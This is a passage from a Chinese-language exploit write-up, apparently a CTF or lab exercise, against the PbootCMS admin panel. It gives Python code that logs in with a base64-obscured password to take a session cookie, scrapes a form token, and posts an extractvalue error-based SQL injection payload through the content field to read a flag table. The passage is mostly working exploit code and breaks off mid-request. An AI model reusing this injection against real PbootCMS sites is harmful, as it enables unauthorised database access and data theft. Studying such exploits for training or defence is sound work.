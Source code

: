 2. 利用 request 库进行 post 数据，并取回 cookie，为后续步骤所用

   ```python
   def GetCookies():
       formcheck = GetFormCheck()
       password = b64decode("MTJAYWE0Li8oOUViOUFEKTApNw==")
       headers = {
           'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) '
                         'Chrome/71.0.3578.98 Safari/537.36',
           'Cookie': 'PbootSystem=' + formcheck[1]
       }
       url = 'http://127.0.0.1/admin.php?p=/Index/login'
       data = {
           'username': 'check',
           'password': password,
           'formcheck': formcheck[0]
       }
       
       r = requests.post(url, data, headers=headers)
       cookies = r.cookies['PbootSystem']
       return 'PbootSystem='+cookies
   ```

3. 发送 POC 到指定位置，并返回数据库报错内容

   ```python
   def SentExp():
       cookie = GetCookies()
       headers = {
           'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) '
                         'Chrome/71.0.3578.98 Safari/537.36',
           'Cookie': cookie
       }
       r = requests.get("http://localhost/admin.php?p=/Content/index/mcode/2", headers=headers)
       r.encoding = 'utf-8'
       soup = BeautifulSoup(r.text, "html.parser")
       formcheck = soup.find("input", {"name": "formcheck"})['value']
       url = 'http://127.0.0.1/admin.php?p=/Content/add/mcode/2'
       data = {
               "formcheck": formcheck,
               "scode": "3",
               "title": "checkit",
               "tags": "",
               "author": "check",
               "source": "%E6%9C%AC%E7%AB%99",
               "ico": "",
               "upload": "",
               "pics": "",
               "upload": "",
               "subscode": "",
               "titlecolor": "%23333333",
               "subtitle": "",
               "filename": "",
               "outlink": "",
               "date": "2022-07-16+11%3A33%3A26",
               "enclosure": "",
               "upload": "",
               "keywords": "",
               "description": "",
               "status": "1",
               "content": '''testPOC' or (select extractvalue(1,concat(0x7e,(select group_concat(flag,0x7e) from 
               pbootcms.ay_aFlag)))) or ' '''
   ```
